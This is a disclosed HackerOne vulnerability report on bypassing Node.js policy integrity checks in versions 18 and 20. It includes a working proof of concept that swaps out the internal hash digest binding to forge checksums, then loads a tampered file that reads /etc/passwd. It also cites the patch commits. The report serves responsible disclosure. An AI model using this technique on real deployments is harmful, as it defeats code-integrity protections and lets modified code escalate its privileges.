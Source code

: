 # Integrity checks according to policies can be circumvented in Node.js 20 and Node.js 18

## Report Details
- **Report ID**: 2208860
- **URL**: https://hackerone.com/reports/2208860
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-10-14T00:08:48.104Z
- **Disclosed**: 2023-11-30T15:52:02.663Z

## Reporter
- **Username**: tniessen
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
**Summary:** When Node.js is checking the integrity of a resource against a trusted manifest, the application can intercept the operation and return a forged checksum to node's policy implementation, thus effectively disabling the integrity check.

**Description:** Node.js uses the `Hash` class of the built-in `crypto` module to compute a cryptographic hash of each resource. The implementation protects itself against modifications of the `Hash` class prototype by the application, however, the `Hash` class internally relies on several C++ bindings that the application can replace at runtime.

Consider the following `policy.json` file:

```json
{
  "resources": {
    "./main.js": {
      "integrity": true,
      "dependencies": {
        "./protected.js": true,
        "crypto": true
      }
    },
    "./protected.js": {
      "integrity": "sha384-OLBgp1GsljhM2TJ+sbHjaiH9txEUvgdDTAzHv2P24donTt6/529l+9Ua0vFImLlb",
      "dependencies": true
    }
  }
}
```

The file `main.js` may contain arbitrary code, but it cannot access, for example, the built-in `fs` module. The file `protected.js`, on the other hand, has a strict integrity requirement but can access arbitrary modules. The `main.js` file may require `protected.js`, provided that the integrity of `protected.js` is verified by Node.js.

The file `main.js` can thus contain arbitrary code. Let the contents be:

```js
const h = require('crypto').createHash('sha384');
const fakeDigest = h.digest();

const kHandle = Object.getOwnPropertySymbols(h)
                      .find((s) => s.description === 'kHandle');
h[kHandle].constructor.prototype.digest = () => fakeDigest;

require('./protected.js');
```

The file `protected.js` does _not_ match the integrity value specified in `policy.json`:

```js
console.log(require('fs').readFileSync('/etc/passwd').length);
```

Running `main.js` with the policy enabled succeeds despite  the integrity mismatch, and the application reads `/etc/passwd`:

```js
$ node --experimental-policy=policy.json main.js 
3224
```

---

This vulnerability is exploitable in the default build configuration of Node.js, and only requires the user to enable the policy feature when starting Node.js.

I provided a patch, which has been merged into the main branch as [commit e673c0362979f9cb2c74fc6876c45ae9be1fe853](https://github.com/nodejs/node/commit/e673c0362979f9cb2c74fc6876c45ae9be1fe853), into the v20.x release line as [commit a4cb7fc7c04869f051e270ed192a679d2d108328](https://github.com/nodejs/node/commit/a4cb7fc7c04869f051e270ed192a679d2d108328), and into the v18.x release line as [commit 1c538938ccadfd35fbc699d8e85102736cd5945c](https://github.com/nodejs/node/commit/1c538938ccadfd35fbc699d8e85102736cd5945c), all of which have been released on October 13th, 2023.

## Impact

As per the Node.js documentation at the time the issue was reported, "Policies are a security feature intended to allow guarantees about what code Node.js is able to load" and "The policy manifest will be used to enforce constraints on code loaded by Node.js." The current revision of the documentation adds that "policies guarantee the file integrity when a module is loaded using `require()`, `import()` or `new Module()`."

The presented vulnerability invalidates these statements. Code may be executed through `require()` even if the code has been modified. The modified code inherits all permissions of the supposedly trusted code, which potentially allows the attacker to escalate their permissions as demonstrated above.

## Attachments
No attachments
